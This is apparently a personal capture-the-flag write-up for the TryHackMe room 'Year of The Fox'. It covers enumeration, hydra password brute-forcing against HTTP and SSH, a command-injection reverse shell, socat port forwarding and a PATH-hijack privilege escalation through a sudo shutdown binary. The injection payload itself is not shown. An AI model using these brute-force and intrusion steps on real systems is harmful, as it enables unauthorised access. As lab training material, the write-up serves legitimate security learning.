



## Year of The Fox
## IP 10.10.129.51

To be honest when I saw this room I was so scared. The room was frightening after the box I saw there is nothing to be scared. Lets see.

### Initial Foothold

I'm gonna start with my rutin scans

```
# Nmap 7.91 scan initiated Sat Nov 28 18:05:37 2020 as: nmap -sV -sC -oN nmap/initial 10.10.129.51
Nmap scan report for 10.10.129.51
Host is up (0.10s latency).
Not shown: 997 closed ports
PORT    STATE SERVICE     VERSION
80/tcp  open  http        Apache httpd 2.4.29
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=You want in? Gotta guess the password!
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: 401 Unauthorized
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: YEAROFTHEFOX)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: YEAROFTHEFOX)
Service Info: Hosts: year-of-the-fox.lan, YEAR-OF-THE-FOX

```

We just have web server and samba It's good and not confusing

Lets check Web server


Directly I tried admin:admin but this machine was 'hard', so we can try brute force with hydra but we need username.

Lets check samba with enum4linux

#enum4lin
```
 ========================================= 
|    Share Enumeration on 10.10.129.51    |
 ========================================= 

	Sharename       Type      Comment
	---------       ----      -------
	yotf            Disk      Fox's Stuff -- keep out!
	IPC$            IPC       IPC Service (year-of-the-fox server (Samba, Ubuntu))

	SMB1 disabled -- no workgroup available

[+] Attempting to map shares on 10.10.129.51
//10.10.129.51/yotf	Mapping: DENIED, Listing: N/A
//10.10.129.51/IPC$	[E] Can't understand response:
NT_STATUS_OBJECT_NAME_NOT_FOUND listing \*


[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1000 Unix User\fox (Local User)
S-1-22-1-1001 Unix User\rascal (Local User)
```
We got the usernames directly I'm gonna start hydra

```
hydra -l fox -P /usr/share/wordlists/rockyou.txt 10.10.129.51 http-head /
hydra -l rascal -P /usr/share/wordlists/rockyou.txt 10.10.129.51 http-head /
```



Thx Hydra! Lets login!



We have an search system what we searching for? I tried directly ls and returned back with "No file returned". When I saw "file" I tired some common file locations, common shells but didn't worked. So lets try wordlist with Burpsuite.

I tried some wordlist but there is nothing to see. Lets try Sql list and bypass filter.


I just want to cry when I saw this results. :( Why I didn't try empty request? Idk.


I tried to read those files but I couldn't
```
["creds2.txt","fox.txt","important-data.txt"]
```
So we have to bypass the filter on the web server. There is two way. We can either edit JS files containing the filters or we can take the easy way and just try by hand.
Lets use BurpSuite again.
*I tried so many technuqies and one of them worked for shell*
Firstly lets add our ip and port in our shell
After editing I'm gonna use base64 and BurpSuite Repeater


I have to listen 4224 port for shell and after that I tried this:


Boom...


```
www-data@year-of-the-fox:/var/www$ cd ~ && id
cd ~ && id
uid=33(www-data) gid=33(www-data) groups=33(www-data)


www-data@year-of-the-fox:/var/www$ ls 
ls 
files  html  web-flag.txt


www-data@year-of-the-fox:/var/www$ cat web-flag.txt
cat web-flag.txt
THM{<CENSORED>}
```
### USER

We got the web flag, we can see files now. We can see "important data" is so important :/ I tried the solve many times creds2.txt and I'm sure this is a rabbit hole!
```
www-data@year-of-the-fox:/var/www$ cd files
cd files


www-data@year-of-the-fox:/var/www/files$ ls
ls
creds2.txt  fox.txt  important-data.txt


www-data@year-of-the-fox:/var/www/files$ file important-data.txt
file important-data.txt

important-data.txt: empty


www-data@year-of-the-fox:/var/www/files$ file fox.txt
file fox.txt
fox.txt: empty


www-data@year-of-the-fox:/var/www/files$ cat creds2.txt
cat creds2.txt
LF5GGMCNPJIXQWLKJEZFURCJGVMVOUJQJVLVE2CONVHGUTTKNBWVUV2WNNNFOSTLJVKFS6CNKRAX
UTT2MMZE4VCVGFMXUSLYLJCGGM22KRHGUTLNIZUE26S2NMFE6R2NGBHEIY32JVBUCZ2MKFXT2CQ=
```

I searched for any creds, couldn't find. I tried common privesc techniques nothing happend. There is nothing about the creds.

Lets check linpeas 


We have to use this command for execute script "chmod +x linpeas.sh"


We can forward ssh port and we can try for brute force


I'm gonna use [socat](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat)

Download the socat and transfer it over using the http server.


Now lets execute the following to open up port 22 to port 4201.


Let’s see if this has worked. Nmap scan:



Brute to ssh:
```
hydra -l fox -P /usr/share/wordlists/rockyou.txt ssh://10.10.195.94:4201 
```


### Privilege Escalation

We have crazy binary

```
fox@year-of-the-fox:~$ sudo -l
Matching Defaults entries for fox on year-of-the-fox:
    env_reset, mail_badpass

User fox may run the following commands on year-of-the-fox:
    (root) NOPASSWD: /usr/sbin/shutdown
```
We have to investigate this binary file there should be something I learned a lot of thing about those binary files from the Recovery Room THM.
Thx Admin !


Let's transfer binary file to our machine. [Check this website](https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/)
As you see, There is binary file called poweroff. If you run this binary with r2, you can see that poweroff is called upon execution.


Something to note is that this binary is not using an absolute path, which means we may be able to perform privilege escalation using PATH Variable.

PATH is an environmental variable in Linux and Unix-like operating systems which specifies all bin and sbin directories that hold all executable programs are stored.

When commands are executed by a user, it essentially requests the binary from terminal with the help of the PATH variable. Here is our PATH variable on Fox’s system:

```
fox@year-of-the-fox:~$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
```
And;


But there isn't root.txt
```
root@year-of-the-fox:~# cat  /root/root.txt
Not here -- go find!
```
We can use this command 
```
find /home/* -group root -xdev -type f -print0 2>>/dev/null | xargs -0 grep -H "THM{" 2>>/dev/null | grep THM{
```
Didn't WORKED ? _ ?
I was shocked, It's my favorite command, MuirlandOracle who is creator this machine hunted me. 
I tried diffrent combs. one of them:
```
find /home/* -group root -xdev -type f -print0 2>>/dev/null | xargs -0 grep -H "T
H
M
{" 2>>/dev/null
```
SO CRAZY :/
```
/home/fox/user-flag.txt:THM{<NOPE :)>}
/home/fox/samba/cipher.txt:JV5FKMSNPJGTITTKKF5E46SZGJGXUVJSJZKFS6CONJCXUTTKJV4U26SBPJHUITJUJV5EC6SNPJMX
/home/fox/samba/cipher.txt:STL2MN5E6RCNGJGXUWJSJZCE2NKONJGTETLKLEZE26SBGIFE4VCZPBBWUTJUJZVEK6SNPJGXOTL2
/home/fox/samba/cipher.txt:IV5E6VCNGRHGURL2JVVFSMSNPJTTETTKJUYE26SRPJGWUTJSJZVE2MSNNJMTCTL2KUZE2VCNGBGX
/home/fox/samba/cipher.txt:USL2JZVE2M2ONJEXUCSNNJGTGTL2JEZE4ULPPJHVITLXJZVEK6SPIREXOTLKIF4VURCCNBBWOPJ5
/home/rascal/.did-you-think-I-was-useless.root:T
/home/rascal/.did-you-think-I-was-useless.root:H
/home/rascal/.did-you-think-I-was-useless.root:M
/home/rascal/.did-you-think-I-was-useless.root:{*******
/home/rascal/.did-you-think-I-was-useless.root:********
/home/rascal/.did-you-think-I-was-useless.root:Here's the prize:
/home/rascal/.did-you-think-I-was-useless.root:YTAyNzQ3ODZlMmE2MjcwNzg2NjZkNjQ2Nzc5NzA0NjY2Njc2NjY4M2I2OTMyMzIzNTNhNjk2ODMw
/home/rascal/.did-you-think-I-was-useless.root:Mwo=
```


# Note 
Don't try the solve creds :) 

